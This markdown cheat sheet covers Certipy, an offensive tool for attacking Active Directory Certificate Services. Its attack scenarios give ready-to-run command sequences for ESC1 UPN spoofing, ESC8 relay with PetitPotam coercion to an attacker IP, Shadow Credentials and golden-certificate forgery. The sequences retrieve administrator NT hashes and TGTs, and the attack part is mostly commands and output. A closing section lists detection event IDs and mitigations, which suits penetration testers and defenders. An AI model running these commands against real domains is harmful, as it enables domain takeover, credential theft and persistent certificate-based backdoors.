





## TL;DR

`Certipy` is an offensive Python tool for attacking Active Directory Certificate Services (ADCS). It combines enumeration, exploitation, and authentication into a single toolkit — finding vulnerable certificate templates, abusing them to obtain certificates for any domain account (including DA), and authenticating with those certificates to retrieve NT hashes or TGTs.

---

## What Certipy Does

| Capability | Details |
|---|---|
| Enumerate ADCS | Find CAs, templates, and permissions via LDAP |
| Detect vulnerable templates | Flag ESC1–ESC16 misconfigurations automatically |
| Request certificates (ESC1) | Request a cert with a forged UPN (e.g., Administrator) |
| Relay NTLM to ADCS HTTP (ESC8) | Relay machine account auth to `/certsrv` enrollment endpoint |
| PKINIT authentication | Authenticate to KDC using a `.pfx` certificate |
| UnPAC-the-hash | Extract the NT hash of an account from a PKINIT AS-REP |
| Shadow Credentials | Write `msDS-KeyCredentialLink` to an account and obtain its TGT/hash |
| Certificate forgery | Forge a certificate using a stolen CA private key (`-ca-pfx`) |
| Golden Certificate | Issue arbitrary certificates offline after exporting CA key |
| Certipy relay | Built-in relay server — no Responder/ntlmrelayx needed for ESC8 |
| Account persistence | Shadow credentials as a covert, certificate-based backdoor |

---

## What Certipy Cannot Do

| Limitation | Why |
|---|---|
| Work without LDAP/Kerberos access | Requires TCP 389 (LDAP) and TCP 88 (Kerberos) |
| Exploit templates requiring manager approval | The CA rejects the certificate request before issuance |
| Exploit AES-only Kerberos if RC4 is disabled for PKINIT | PKINIT works with AES, but some edge cases may not apply |
| Crack passwords | Only retrieves hashes — cracking is a separate step |
| Enumerate without credentials (typically) | LDAP bind requires valid domain credentials |
| Forge certificates without the CA private key | Forgery requires prior extraction of the CA's private key |
| Bypass EPA on ADCS Web Enrollment | Extended Protection for Authentication blocks ESC8 relay |
| Work against ADCS not configured for web enrollment (ESC8) | ESC8 requires the `/certsrv` HTTP endpoint to be running |

---

## Core Concepts

### PKINIT — Certificate-Based Kerberos Authentication



### UnPAC-the-Hash — NT Hash Without Password

When authenticating with PKINIT, the KDC embeds the account's NT hash in the encrypted session key. Certipy decrypts this to recover the raw NT hash — usable for Pass-the-Hash without ever knowing the plaintext password.

---

## Attack Scenario 1: ESC1 — UPN Spoofing

**Requirements:** A certificate template allows the requester to supply a custom Subject Alternative Name (SAN) with no manager approval.



```bash
# Step 1: Find vulnerable templates
certipy find -u 'jsmith@corp.local' -p 'Password1' -dc-ip 10.10.10.100 -vulnerable

# Step 2: Request cert with Administrator's UPN
certipy req -u 'jsmith@corp.local' -p 'Password1' \
  -ca 'corp-CA' \
  -template 'VulnTemplate' \
  -upn 'administrator@corp.local' \
  -dc-ip 10.10.10.100

# Step 3: Authenticate and get NT hash
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.100
```

Output gives you the NT hash and a TGT:
```
[*] Got hash for 'administrator@corp.local': aad3b435...:8846f7ea...
```

---

## Attack Scenario 2: ESC8 — Relay to ADCS Web Enrollment

**Requirements:** ADCS Web Enrollment (`/certsrv`) running, no EPA configured, attacker can coerce a machine account.



```bash
# Terminal 1: Start Certipy relay listener
certipy relay -ca 10.10.10.100 -template DomainController

# Terminal 2: Coerce DC to authenticate to attacker
# (e.g., with PetitPotam)
python3 PetitPotam.py -u 'jsmith' -p 'Password1' <ATTACKER_IP> <DC_IP>

# After relay completes, certipy saves dc.pfx — authenticate:
certipy auth -pfx dc.pfx -dc-ip 10.10.10.100
```

---

## Attack Scenario 3: Shadow Credentials

**Requirements:** Attacker has write access to `msDS-KeyCredentialLink` attribute on a target account (e.g., via GenericWrite, GenericAll, or WriteProperty).



```bash
# Auto mode: write shadow credential, auth, then clean up
certipy shadow auto -u 'jsmith@corp.local' -p 'Password1' \
  -account 'targetuser' \
  -dc-ip 10.10.10.100

# Manual: add only
certipy shadow add -u 'jsmith@corp.local' -p 'Password1' \
  -account 'targetuser' \
  -dc-ip 10.10.10.100

# Then authenticate
certipy auth -pfx targetuser.pfx -dc-ip 10.10.10.100
```

---

## Attack Scenario 4: Certificate Forgery (Golden Certificate)

**Requirements:** CA private key has been exported (e.g., via `certipy ca -backup` or `secretsdump`).



```bash
# Step 1: Export CA certificate and key (requires CA admin / DA)
certipy ca -backup -u 'administrator@corp.local' -hashes :<NT_HASH> \
  -ca 'corp-CA' -dc-ip 10.10.10.100
# Produces: corp-CA.pfx

# Step 2: Forge a certificate for any account — fully offline
certipy forge -ca-pfx 'corp-CA.pfx' \
  -upn 'administrator@corp.local' \
  -subject 'CN=Administrator,CN=Users,DC=corp,DC=local'
# Produces: administrator_forged.pfx

# Step 3: Authenticate
certipy auth -pfx administrator_forged.pfx -dc-ip 10.10.10.100
```

> A forged certificate is valid for the lifetime of the CA. Rotating the CA key is required to remediate.

---

## Common Commands

### Enumerate everything

```bash
certipy find -u 'user@corp.local' -p 'Password1' -dc-ip 10.10.10.100

# Only flag vulnerable templates / configurations
certipy find -u 'user@corp.local' -p 'Password1' -dc-ip 10.10.10.100 -vulnerable

# Output as JSON (useful for manual analysis)
certipy find -u 'user@corp.local' -p 'Password1' -dc-ip 10.10.10.100 -json
```

### Request a certificate

```bash
# ESC1 — supply custom UPN
certipy req -u 'user@corp.local' -p 'Password1' \
  -ca 'corp-CA' -template 'VulnTemplate' \
  -upn 'administrator@corp.local' \
  -dc-ip 10.10.10.100

# Pass-the-Hash for request authentication
certipy req -u 'user@corp.local' -hashes :<NT_HASH> \
  -ca 'corp-CA' -template 'User' \
  -dc-ip 10.10.10.100
```

### Authenticate with a certificate

```bash
# Get TGT + NT hash via PKINIT
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.100

# Specify domain (useful when pfx doesn't embed domain info)
certipy auth -pfx administrator.pfx -domain corp.local -dc-ip 10.10.10.100
```

### CA management

```bash
# Backup (export) CA cert and private key
certipy ca -backup -u 'administrator@corp.local' -p 'Password1' \
  -ca 'corp-CA' -dc-ip 10.10.10.100

# List CA officers and managers
certipy ca -list-officers -u 'user@corp.local' -p 'Password1' \
  -ca 'corp-CA' -dc-ip 10.10.10.100
```

---

## Common Options

| Flag | Description |
|---|---|
| `-u <user@domain>` | Username |
| `-p <password>` | Password |
| `-hashes <LM:NT>` | NTLM hash authentication |
| `-k` | Use Kerberos (ccache) authentication |
| `-dc-ip <ip>` | Domain controller IP |
| `-ca <name>` | Target CA name |
| `-template <name>` | Certificate template name |
| `-upn <upn>` | UPN to embed in the SAN (ESC1) |
| `-pfx <file>` | PFX/P12 certificate file for authentication |
| `-vulnerable` | Show only vulnerable findings in `find` output |
| `-json` | Output in JSON format |
| `-stdout` | Print hash/TGT to stdout |
| `-ns <ip>` | DNS server IP (for name resolution) |

---

## Certipy vs Similar Tools

| Tool | Primary Use | Enumeration | Exploitation | Relay |
|---|---|---|---|---|
| `Certipy` | ADCS full attack chain | Yes (LDAP) | ESC1–ESC16 | ESC8 built-in |
| `Certify` (C#) | ADCS enumeration + req | Yes (LDAP) | ESC1–ESC4 | No |
| `ntlmrelayx.py` | NTLM relay incl. ADCS | No | ESC8 only | Yes (multi-target) |
| `PKINITtools` | PKINIT + UnPAC-the-hash | No | Auth only | No |
| `PassTheCert` | Certificate-based auth | No | Auth only | No |

**When to prefer alternatives:**
- Need to run from Windows without Python → `Certify` (C#, runs as a .NET binary)
- Multi-target relay with ADCS as one of many targets → `ntlmrelayx.py`
- Only need PKINIT authentication → `PKINITtools`

---

## Detection & Defense

### Blue Team Indicators

| Event ID | Source | What to look for |
|---|---|---|
| 4886 | Security | Certificate requested — check if requester IP matches the account's expected host |
| 4887 | Security | Certificate issued — flag if the SAN UPN does not match the requester |
| 5136 | Security | AD object modified — `msDS-KeyCredentialLink` changed (Shadow Credentials) |
| 4624 | Security | Network logon (Type 3) immediately after certificate issuance from an unexpected host |

An account requesting a certificate for a *different* UPN than itself (event 4887) is the strongest ESC1 indicator.

### Mitigations

```powershell
# Remove CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT from vulnerable templates
# In the Certificate Templates console (certtmpl.msc):
# → Template Properties → Subject Name tab
# → Uncheck "Supply in the request"

# Enable Manager Approval on sensitive templates
# → Template Properties → Issuance Requirements
# → Check "CA certificate manager approval"

# Enable EPA (Extended Protection for Authentication) on IIS hosting /certsrv
# → IIS Manager → certsrv → Authentication → Windows Authentication → Advanced Settings
# → Extended Protection: Required

# Audit msDS-KeyCredentialLink changes
# Enable Object Access auditing and monitor Event 5136 for this attribute
```

- Enable **EPA** on ADCS Web Enrollment to prevent ESC8 relay
- Remove **`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`** from templates not requiring it
- Require **manager approval** on high-privilege templates
- Monitor **Event 4887** for certificates issued with mismatched SANs
- Deploy **Microsoft Defender for Identity (MDI)** — detects Shadow Credentials and anomalous certificate issuance
- Consider **not exposing** the ADCS Web Enrollment endpoint (`/certsrv`) on the network

---

## References

- [Certipy — GitHub (ly4k)](https://github.com/ly4k/Certipy)
- [Certipy 4.0 blog post — ly4k](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)
- [Certified Pre-Owned — Will Schroeder & Lee Christensen](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf)
- [MITRE ATT&CK — T1649 Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)
